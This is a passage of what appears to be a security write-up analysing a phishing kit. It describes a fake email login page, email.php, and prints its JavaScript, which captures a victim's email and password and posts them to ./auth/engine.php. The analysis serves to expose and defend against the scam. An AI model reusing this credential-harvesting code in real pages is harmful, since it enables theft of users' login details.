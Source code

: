We have censored 2 pages that may contain personal information. We will call the pages `XYZ.php` and `ABC.php` whilst discussing it.

We will briefly touch on some of the `.php` pages.



## email.php

The `email.php` site loads a form that attempts to phish for the victim's email and password used for their account.

<img src="Asset05-email.png" width="75%" height="75%"><br/>

### email.php (Javascript)

[Here is a dump of the email and password phishing page.](Dump02-EmailPhish.txt)

When inspecting the scam login page, we find a snippet of Javascript code embedded within the HTML.

```Javascript
<script>
	const f4 = document.getElementById("form2");
	f4.addEventListener("submit", e => {
		//alert("hello");
		e.preventDefault();

		document.getElementById("lgbtn").innerHTML = "Processing...";
		var user = f4['emailuser'].value;
		var pass = f4['passemail'].value;
    
    if(user == "" || pass == ""){
      var iserror = document.getElementById("errormsg1");
			iserror.innerHTML ="Oops! *All fields must be filled";
			iserror.style.display ='block';
			iserror.style.color ='red';
			document.getElementById("lgbtn").innerHTML = "Next";
			return;
    }
		
		$.post("./auth/engine.php", {
			loader: "emailus",
			user: user,
			pass: pass,
      id: ,
			status: 1
		}, function (data, resp) {
```